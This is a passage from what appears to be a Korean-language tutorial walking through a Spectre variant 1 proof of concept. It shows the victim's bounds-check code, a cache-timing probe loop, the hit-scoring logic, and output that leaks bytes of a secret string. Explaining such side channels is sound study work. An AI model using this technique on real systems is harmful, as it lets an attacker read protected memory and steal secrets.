 ```c
if (x < array1_size) {
	temp &= array2[array1[x] * 512];
}
```

이후에 `victim_function(x)` 함수를 호출하게 되면 위의 코드가 실행되면서 캐시에 `array2[array1[x] * 512]` 값이 올라갑니다. 

```c
for (i = 0; i < 256; i++) {
	mix_i = ((i * 167) + 13) & 255;
	addr = & array2[mix_i * 512];

	time1 = __rdtscp( & junk); /* READ TIMER */
	junk = * addr; /* MEMORY ACCESS TO TIME */
	time2 = __rdtscp( & junk) - time1; /* READ TIMER & COMPUTE ELAPSED TIME */

	_mm_mfence();
	time1 = __rdtsc(); /* READ TIMER */
	_mm_mfence();
	junk = * addr; /* MEMORY ACCESS TO TIME */
	_mm_mfence();
	time2 = __rdtsc() - time1; /* READ TIMER & COMPUTE ELAPSED TIME */
	_mm_mfence();
	
	if (time2 <= cache_hit_threshold && mix_i != array1[tries % array1_size])
		results[mix_i]++; /* cache hit - add +1 to score for this value */
}
```

`victim_function(x)` 함수 호출 후에는 256(1바이트의 크기)번 반복을 돌면서 시간 차를 체크합니다. 이를 통해 `cache hit`가 발생하는지를 확인합니다.

```c
j = k = -1;
for (i = 0; i < 256; i++) {
  if (j < 0 || results[i] >= results[j]) {
    k = j;
    j = i;
  } else if (k < 0 || results[i] >= results[k]) {
    k = i;
  }
}
if (results[j] >= (2 * results[k] + 5) || (results[j] == 2 && results[k] == 0))
  break; /* Clear success if best is > 2*runner-up + 5 or 2/0) */
```

이 부분은 캐시 히트가 몇번 발생했는지를 확인하여 캐시히트가 가장 많이 발생한 값과 둘째로 많이 발생한 값을 j와 k에 차례로 담게 됩니다.

이러한 과정을 거쳐 다음과 같이 값을 추정해올 수 있습니다.

### 실행 결과

```
$ ./spectre.out 
Using a cache hit threshold of 80.
Build: RDTSCP_SUPPORTED MFENCE_SUPPORTED CLFLUSH_SUPPORTED 
Reading 40 bytes:
Reading at malicious_x = 0xffffffffffdfec68... Unclear: 0x54=’T’ score=999 (second best: 0x01=’?’ score=808)
Reading at malicious_x = 0xffffffffffdfec69... Unclear: 0x68=’h’ score=996 (second best: 0x01=’?’ score=803)
Reading at malicious_x = 0xffffffffffdfec6a... Unclear: 0x65=’e’ score=992 (second best: 0x01=’?’ score=768)
Reading at malicious_x = 0xffffffffffdfec6b... Unclear: 0x20=’ ’ score=998 (second best: 0x01=’?’ score=788)
Reading at malicious_x = 0xffffffffffdfec6c... Unclear: 0x4D=’M’ score=967 (second best: 0x01=’?’ score=799)
```